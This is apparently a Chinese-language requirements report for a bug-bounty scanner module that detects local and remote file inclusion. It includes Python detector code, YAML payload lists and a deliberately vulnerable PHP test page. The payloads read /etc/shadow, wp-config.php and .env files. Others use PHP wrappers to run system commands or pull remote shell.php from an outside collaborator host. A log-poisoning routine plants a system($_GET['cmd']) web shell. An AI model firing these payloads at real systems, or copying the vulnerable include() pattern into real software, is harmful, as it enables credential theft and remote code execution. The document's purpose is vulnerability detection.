

# 🎯 本地/遠程文件包含檢測模組需求報告 (LFI/RFI Detection)

## 📁 模組部署位置
```
services/integration/capability/file_inclusion/
├── __init__.py
├── __main__.py
├── lfi_detector.py                   # 本地文件包含檢測器
├── rfi_detector.py                   # 遠程文件包含檢測器
├── file_inclusion_scanner.py         # 統一掃描協調器
├── payload_server.py                 # 遠程載荷服務器
├── config/
│   ├── lfi_patterns.json
│   ├── rfi_patterns.json
│   ├── target_files.json
│   └── detection_rules.json
├── payloads/
│   ├── lfi_payloads.json
│   ├── rfi_payloads.json
│   ├── log_poisoning_payloads.json
│   └── wrapper_payloads.json
└── tests/
    ├── test_lfi_detector.py
    ├── test_rfi_detector.py
    └── test_integration.py
```

## 🔗 相關模組連結
- [命令注入檢測](./11_命令注入檢測模組需求報告.md) - 共享代碼執行檢測邏輯
- [服務器端模板注入檢測](./12_服務器端模板注入檢測模組需求報告.md) - 共享代碼執行檢測
- [目錄遍歷攻擊檢測](./13_目錄遍歷攻擊檢測模組需求報告.md) - 核心技術重疊
- [XXE注入檢測](./15_XXE注入檢測模組需求報告.md) - 共享外部實體載入檢測
- [NoSQL注入檢測](./16_NoSQL注入檢測模組需求報告.md) - 共享載荷注入技術

**報告編號**: FEAT-014  
**日期**: 2025年11月7日  
**狀態**: 🔥 穩定收益 - 中等複雜度  
**優先級**: P1 (High Priority)  
**預期收益**: $50K-90K/年  
**OWASP 編號**: WSTG-07-11.1/11.2

---

## 📊 市場需求分析

### 💰 賞金價值評估
- **典型賞金範圍**: $300-$3,000
- **發現頻率**: 高 (40-60%的PHP/動態語言應用存在風險)
- **檢測成功率**: 80-90% (需要上下文理解)
- **年收益預測**: $50K-90K

### 🎯 目標技術棧分布
- **PHP應用**: 60%市場佔有率 (include, require函數)
- **Python應用**: 20%市場佔有率 (exec, eval函數)
- **ASP.NET應用**: 10%市場佔有率 (Server.Execute)
- **Java應用**: 8%市場佔有率 (include tags)
- **其他語言**: 2%市場佔有率

### 🚨 高風險場景
- CMS系統 (WordPress, Drupal) - 85%風險
- 文件管理器 - 80%風險
- 模板系統 - 75%風險
- 多語言網站 - 70%風險
- API Gateway - 60%風險

---

## 🔍 技術需求規格

### **模組標識**
```
服務路徑: services/integration/capability/file_inclusion/
模組名稱: Local/Remote File Inclusion Detection Engine
責任團隊: Advanced Security Research Team
實現語言: Python (主引擎) + Go (性能組件)
複雜度級別: Medium-High
```

### **核心檢測能力**

#### 1️⃣ **LFI檢測引擎**
```python
class LFIDetector:
    """本地文件包含檢測器"""
    
    def __init__(self):
        self.lfi_payloads = self._load_lfi_payloads()
        self.file_signatures = self._load_file_signatures()
        self.wrappers = self._load_php_wrappers()
        
    def _load_lfi_payloads(self):
        """載入LFI測試載荷"""
        return {
            'basic_lfi': [
                # 基本文件包含
                '/etc/passwd',
                '/etc/shadow',
                '/etc/hosts',
                '/proc/version',
                '/proc/self/environ',
                
                # Windows文件
                'C:\\windows\\system32\\drivers\\etc\\hosts',
                'C:\\windows\\win.ini',
                'C:\\windows\\system.ini',
                
                # 相對路徑
                '../../../etc/passwd',
                '..\\..\\..\\windows\\win.ini',
                
                # 應用文件
                '../config.php',
                '../wp-config.php',
                '../.env',
                '../database.yml',
            ],
            
            'php_wrappers': [
                # PHP協議包裝器
                'php://filter/convert.base64-encode/resource=/etc/passwd',
                'php://filter/read=string.rot13/resource=/etc/passwd',
                'php://filter/convert.iconv.utf-8.utf-16/resource=/etc/passwd',
                
                # 數據協議
                'data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==',  # <?php phpinfo(); ?>
                'data://text/plain,<?php phpinfo(); ?>',
                
                # ZIP協議
                'zip://shell.zip#shell.php',
                'phar://shell.phar/shell.php',
                
                # 輸入流
                'php://input',
                'php://stdin'
            ],
            
            'null_byte': [
                # NULL字節截斷 (舊版PHP)
                '/etc/passwd%00',
                '/etc/passwd%00.jpg',
                '../config.php%00.txt',
                'php://filter/resource=/etc/passwd%00',
            ],
            
            'encoding_bypass': [
                # 編碼繞過
                '%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd',
                '..%252f..%252f..%252fetc%252fpasswd',
                '....//....//....//etc//passwd',
                '..\/..\/..\/etc\/passwd',
            ]
        }
    
    def detect_lfi(self, target_url, parameter):
        """檢測本地文件包含漏洞"""
        detections = []
        
        for category, payloads in self.lfi_payloads.items():
            for payload in payloads:
                result = self._test_lfi_payload(target_url, parameter, payload, category)
                if result:
                    detections.append(result)
                    
        return detections
    
    def _test_lfi_payload(self, url, param, payload, category):
        """測試單個LFI載荷"""
        
        # 構造測試URL
        test_url = self._build_test_url(url, param, payload)
        
        # 發送請求
        response = self._send_request(test_url)
        if not response:
            return None
            
        # 分析響應
        return self._analyze_lfi_response(response, payload, category)
    
    def _analyze_lfi_response(self, response, payload, category):
        """分析LFI響應"""
        
        content = response.text.lower()
        
        # 檢查文件特徵
        for file_path, signatures in self.file_signatures.items():
            if any(sig in content for sig in signatures):
                return {
                    'type': 'Local File Inclusion',
                    'category': category,
                    'payload': payload,
                    'detected_file': file_path,
                    'confidence': self._calculate_confidence(content, signatures),
                    'evidence': self._extract_evidence(content, signatures[:3])
                }
        
        # 檢查PHP錯誤
        php_errors = [
            'failed to open stream',
            'no such file or directory',
            'permission denied',
            'include_path',
            'fopen()',
            'include()',
            'require()'
        ]
        
        if any(error in content for error in php_errors):
            return {
                'type': 'Local File Inclusion',
                'category': 'error_disclosure',
                'payload': payload,
                'confidence': 0.6,
                'evidence': 'PHP file inclusion error detected'
            }
            
        return None
```

#### 2️⃣ **RFI檢測引擎**
```python
class RFIDetector:
    """遠程文件包含檢測器"""
    
    def __init__(self, collaborator_server):
        self.collaborator_server = collaborator_server
        self.rfi_payloads = self._generate_rfi_payloads()
        
    def _generate_rfi_payloads(self):
        """生成RFI測試載荷"""
        base_url = f"http://{self.collaborator_server}"
        
        return {
            'basic_rfi': [
                # 基本遠程包含
                f"{base_url}/test.php",
                f"{base_url}/test.txt",
                f"{base_url}/shell.php",
                
                # 帶參數
                f"{base_url}/test.php?cmd=phpinfo",
                f"{base_url}/callback.php?target={{TARGET}}",
            ],
            
            'protocol_variations': [
                # HTTP協議
                f"http://{self.collaborator_server}/test.php",
                f"https://{self.collaborator_server}/test.php",
                
                # FTP協議
                f"ftp://anonymous:pass@{self.collaborator_server}/test.php",
                
                # SMB協議 (Windows)
                f"\\\\{self.collaborator_server}\\share\\test.php",
                f"file://{self.collaborator_server}/test.php",
            ],
            
            'encoding_bypass': [
                # URL編碼
                f"http%3A%2F%2F{self.collaborator_server}%2Ftest.php",
                
                # 十六進制編碼
                self._encode_hex(f"http://{self.collaborator_server}/test.php"),
                
                # 雙重編碼
                f"http%253A%252F%252F{self.collaborator_server}%252Ftest.php",
            ]
        }
    
    def detect_rfi(self, target_url, parameter):
        """檢測遠程文件包含漏洞"""
        detections = []
        
        for category, payloads in self.rfi_payloads.items():
            for payload in payloads:
                result = self._test_rfi_payload(target_url, parameter, payload, category)
                if result:
                    detections.append(result)
                    
        return detections
    
    def _test_rfi_payload(self, url, param, payload, category):
        """測試RFI載荷"""
        
        # 生成唯一標識
        test_id = f"rfi-{uuid.uuid4().hex[:8]}"
        
        # 構造帶標識的載荷
        test_payload = payload.replace('test.php', f'{test_id}.php')
        
        # 構造測試URL
        test_url = self._build_test_url(url, param, test_payload)
        
        # 發送請求
        response = self._send_request(test_url)
        
        # 檢查協作服務器日誌
        time.sleep(5)  # 等待請求到達
        
        if self._check_collaborator_interaction(test_id):
            return {
                'type': 'Remote File Inclusion',
                'category': category,
                'payload': test_payload,
                'confidence': 0.95,
                'evidence': f'Remote server interaction detected: {test_id}'
            }
            
        return None
```

#### 3️⃣ **高級檢測技術**
```python
class AdvancedLFIRFIDetector:
    """高級LFI/RFI檢測技術"""
    
    def detect_log_poisoning(self, target_url, parameter):
        """檢測日誌污染攻擊"""
        
        # 常見日誌文件路徑
        log_files = [
            '/var/log/apache2/access.log',
            '/var/log/nginx/access.log',
            '/var/log/httpd/access_log',
            'C:\\inetpub\\logs\\LogFiles\\W3SVC1\\ex*.log',
            '/proc/self/environ',
            '/var/log/mail.log',
            '/var/log/auth.log'
        ]
        
        detections = []
        
        for log_file in log_files:
            # 步驟1：污染日誌
            poison_payload = '<?php system($_GET["cmd"]); ?>'
            self._poison_log(target_url, poison_payload)
            
            # 步驟2：包含日誌文件
            lfi_payload = log_file
            result = self._test_log_inclusion(target_url, parameter, lfi_payload, poison_payload)
            
            if result:
                detections.append({
                    'type': 'Log Poisoning + LFI',
                    'log_file': log_file,
                    'payload': lfi_payload,
                    'confidence': 0.9,
                    'evidence': 'Log poisoning successful'
                })
                
        return detections
    
    def detect_session_inclusion(self, target_url, parameter):
        """檢測會話文件包含"""
        
        # PHP會話文件路徑
        session_paths = [
            '/tmp/sess_{{SESSIONID}}',
            '/var/lib/php/sessions/sess_{{SESSIONID}}',
            '/var/lib/php5/sess_{{SESSIONID}}',
            'C:\\Windows\\Temp\\sess_{{SESSIONID}}',
        ]
        
        # 獲取會話ID
        session_id = self._get_session_id(target_url)
        if not session_id:
            return []
            
        detections = []
        
        for session_path in session_paths:
            # 替換會話ID
            actual_path = session_path.replace('{{SESSIONID}}', session_id)
            
            # 測試會話文件包含
            result = self._test_lfi_payload(target_url, parameter, actual_path, 'session_inclusion')
            
            if result:
                detections.append({
                    'type': 'Session File Inclusion',
                    'session_path': actual_path,
                    'session_id': session_id,
                    'confidence': 0.85,
                    'evidence': 'Session file successfully included'
                })
                
        return detections
    
    def detect_upload_inclusion(self, target_url, parameter):
        """檢測上傳文件包含"""
        
        # 常見上傳目錄
        upload_paths = [
            '/uploads/',
            '/upload/',
            '/files/',
            '/tmp/',
            '/var/tmp/',
            '../uploads/',
            '../files/',
        ]
        
        detections = []
        
        # 嘗試上傳PHP文件
        php_content = '<?php echo "LFI_TEST_SUCCESS"; phpinfo(); ?>'
        
        for upload_path in upload_paths:
            # 嘗試上傳
            uploaded_file = self._attempt_upload(target_url, php_content)
            if not uploaded_file:
                continue
                
            # 構造包含路徑
            include_path = upload_path + uploaded_file
            
            # 測試文件包含
            result = self._test_lfi_payload(target_url, parameter, include_path, 'upload_inclusion')
            
            if result and 'LFI_TEST_SUCCESS' in result.get('evidence', ''):
                detections.append({
                    'type': 'Upload + LFI Chain',
                    'uploaded_file': uploaded_file,
                    'include_path': include_path,
                    'confidence': 0.95,
                    'evidence': 'Uploaded file successfully included and executed'
                })
                
        return detections
```

---

## 🏗️ 架構設計

### **模組結構**
```
services/integration/capability/file_inclusion/
├── cmd/
│   └── main.go                    # Go服務入口
├── internal/
│   ├── detector/
│   │   ├── lfi_detector.py        # LFI檢測引擎
│   │   ├── rfi_detector.py        # RFI檢測引擎
│   │   ├── advanced_detector.py   # 高級檢測技術
│   │   ├── payload_generator.py   # 載荷生成器
│   │   └── signature_matcher.py   # 文件特徵匹配
│   ├── engine/
│   │   ├── scanner.py             # 主掃描引擎
│   │   ├── collaborator.py        # 協作服務器
│   │   └── reporter.py            # 報告生成器
│   └── worker/
│       ├── amqp_consumer.go       # 消息消費者
│       └── task_processor.go      # 任務處理器
├── config/
│   ├── payloads/
│   │   ├── lfi_basic.yaml         # 基本LFI載荷
│   │   ├── lfi_wrappers.yaml      # PHP包裝器載荷
│   │   ├── rfi_protocols.yaml     # RFI協議載荷
│   │   └── encoding_bypass.yaml   # 編碼繞過載荷
│   ├── signatures/
│   │   ├── system_files.yaml      # 系統文件特徵
│   │   ├── config_files.yaml      # 配置文件特徵
│   │   └── application_files.yaml # 應用文件特徵
│   └── rules.yaml                 # 檢測規則
├── collaborator/
│   ├── server.py                  # 協作服務器
│   ├── log_collector.py           # 日誌收集器
│   └── interaction_tracker.py     # 交互追蹤器
└── tests/
    ├── unit/
    ├── integration/
    └── vulnerable_apps/           # 測試應用
```

### **檢測工作流**


---

## ⚙️ 配置文件規格

### **主配置文件**
```yaml
# config/rules.yaml
lfi_rfi_detection:
  enabled: true
  timeout: 30
  max_payloads_per_param: 25
  
  lfi:
    enabled: true
    basic_files: true
    php_wrappers: true
    null_byte_attack: true
    encoding_bypass: true
    
    advanced_techniques:
      log_poisoning: true
      session_inclusion: true
      upload_inclusion: true
      proc_environ: true
      
  rfi:
    enabled: true
    collaborator_server: "rfi.aiva-security.com"
    protocols: ["http", "https", "ftp", "smb"]
    interaction_timeout: 30
    
  confidence_thresholds:
    high: 0.9
    medium: 0.7
    low: 0.5
    
  rate_limiting:
    requests_per_second: 5
    burst_limit: 10
    delay_between_requests: 200ms
```

### **LFI載荷配置**
```yaml
# config/payloads/lfi_basic.yaml
lfi_payloads:
  unix_system_files:
    - path: "/etc/passwd"
      signatures:
        - "root:x:0:0:"
        - "daemon:x:"
        - "nobody:x:"
      severity: "high"
      
    - path: "/etc/shadow"
      signatures:
        - "root:$"
        - ":$1$"
        - ":$6$"
      severity: "critical"
      
    - path: "/proc/version"
      signatures:
        - "Linux version"
        - "gcc version"
      severity: "medium"
      
  windows_system_files:
    - path: "C:\\windows\\win.ini"
      signatures:
        - "[fonts]"
        - "[extensions]"
      severity: "high"
      
    - path: "C:\\windows\\system32\\drivers\\etc\\hosts"
      signatures:
        - "127.0.0.1"
        - "localhost"
      severity: "medium"
      
  application_files:
    - path: "../config.php"
      signatures:
        - "$db_password"
        - "mysql_connect"
        - "<?php"
      severity: "critical"
      
    - path: "../wp-config.php"
      signatures:
        - "DB_PASSWORD"
        - "DB_HOST"
        - "wordpress"
      severity: "critical"
      
    - path: "../.env"
      signatures:
        - "DB_PASSWORD="
        - "API_KEY="
        - "SECRET_KEY="
      severity: "critical"
```

### **PHP包裝器配置**
```yaml
# config/payloads/lfi_wrappers.yaml
php_wrappers:
  filter_wrappers:
    - "php://filter/convert.base64-encode/resource=/etc/passwd"
    - "php://filter/read=string.rot13/resource=/etc/passwd"
    - "php://filter/convert.iconv.utf-8.utf-16/resource=/etc/passwd"
    - "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd"
    
  data_protocol:
    - "data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg=="  # <?php phpinfo(); ?>
    - "data://text/plain,<?php system('id'); ?>"
    - "data://text/plain,<?php echo file_get_contents('/etc/passwd'); ?>"
    
  zip_protocol:
    - "zip://shell.zip#shell.php"
    - "phar://shell.phar/shell.php"
    - "compress.zlib://data.txt"
    - "compress.bzip2://data.txt"
    
  input_streams:
    - "php://input"
    - "php://stdin"
    - "php://fd/0"
    - "php://memory"
    - "php://temp"
```

---

## 🧪 測試策略

### **漏洞應用搭建**
```php
<?php
// tests/vulnerable_apps/lfi_rfi_test.php

// LFI漏洞 - 直接包含
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
}

// LFI漏洞 - 相對路徑
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include("pages/" . $page . ".php");
}

// RFI漏洞 - 遠程包含
if (isset($_GET['url'])) {
    $url = $_GET['url'];
    include($url);
}

// 過濾繞過測試
if (isset($_GET['template'])) {
    $template = $_GET['template'];
    // 簡單過濾
    $template = str_replace('../', '', $template);
    include("templates/" . $template);
}

// NULL字節測試
if (isset($_GET['doc'])) {
    $doc = $_GET['doc'];
    include("docs/" . $doc . ".txt");
}
?>
```

### **自動化測試**
```python
class TestLFIRFIDetection:
    def setup_method(self):
        self.detector = LFIRFIDetector()
        self.test_server = "http://localhost:8080"
        
    def test_basic_lfi_detection(self):
        """測試基本LFI檢測"""
        target = f"{self.test_server}/lfi_test.php"
        
        results = self.detector.scan_lfi(target, 'file')
        
        assert len(results) > 0
        assert any(r['type'] == 'Local File Inclusion' for r in results)
        assert any('/etc/passwd' in r.get('detected_file', '') for r in results)
        
    def test_php_wrapper_detection(self):
        """測試PHP包裝器檢測"""
        target = f"{self.test_server}/lfi_test.php"
        
        results = self.detector.scan_lfi(target, 'file')
        
        wrapper_detected = any(
            'php://filter' in r.get('payload', '') for r in results
        )
        assert wrapper_detected
        
    def test_rfi_detection(self):
        """測試RFI檢測"""
        target = f"{self.test_server}/rfi_test.php"
        
        results = self.detector.scan_rfi(target, 'url')
        
        assert len(results) > 0
        assert any(r['type'] == 'Remote File Inclusion' for r in results)
        
    def test_advanced_techniques(self):
        """測試高級檢測技術"""
        target = f"{self.test_server}/advanced_test.php"
        
        # 測試日誌污染
        log_results = self.detector.detect_log_poisoning(target, 'file')
        
        # 測試會話包含
        session_results = self.detector.detect_session_inclusion(target, 'file')
        
        # 至少有一種高級技術成功
        assert len(log_results) > 0 or len(session_results) > 0
```

---

## 📈 性能要求

### **掃描性能**
- **單目標掃描時間**: < 90秒 (包含高級技術)
- **並發請求數**: 10個並發連接
- **RFI交互等待時間**: 30秒
- **內存使用**: < 256MB/實例

### **檢測準確率**
- **LFI檢測成功率**: > 85%
- **RFI檢測成功率**: > 80%
- **高級技術成功率**: > 70%
- **誤報率**: < 5%

---

## 🚀 實施計劃

### **Phase 1: 基礎LFI檢測 (2週)**
- [ ] LFI檢測引擎
- [ ] 基本文件包含載荷
- [ ] 文件特徵匹配器
- [ ] PHP包裝器支持

### **Phase 2: RFI檢測系統 (2週)**
- [ ] 協作服務器搭建
- [ ] RFI檢測引擎
- [ ] 交互追蹤系統
- [ ] 多協議支持

### **Phase 3: 高級檢測技術 (2週)**
- [ ] 日誌污染檢測
- [ ] 會話文件包含
- [ ] 上傳文件包含
- [ ] 編碼繞過技術

### **Phase 4: 集成和優化 (1週)**
- [ ] 結果整合和去重
- [ ] 性能優化
- [ ] SARIF報告生成
- [ ] 測試和部署

**總開發周期**: 7週  
**預計上線時間**: 2025年12月26日

---

## 💼 商業價值

### **收益分析**
- **年度賞金收入**: $50K-90K
- **開發投資**: $70K (7週開發)
- **ROI**: 71%-129%
- **回收周期**: 9-12個月

### **技術價值**
- **檢測覆蓋率**: 提升至45%
- **複雜攻擊鏈**: 支持多階段攻擊檢測
- **技術差異化**: 少數支持高級LFI/RFI技術的工具

---

## 📋 驗收標準

### **功能驗收**
- ✅ 支持基本LFI/RFI檢測
- ✅ PHP包裝器完整支持
- ✅ 協作服務器穩定運行
- ✅ 高級檢測技術有效
- ✅ 多平台文件特徵識別

### **性能驗收**
- ✅ 掃描時間<90秒/目標
- ✅ LFI成功率>85%
- ✅ RFI成功率>80%
- ✅ 誤報率<5%

---

## 🎯 結論

LFI/RFI檢測模組是一個**中等複雜度、穩定收益**的戰略性項目。其技術挑戰適中，但收益穩定，特別是高級檢測技術將成為重要的競爭差異化因素。

**建議作為第三優先級項目**，在目錄遍歷和命令注入模組完成後實施。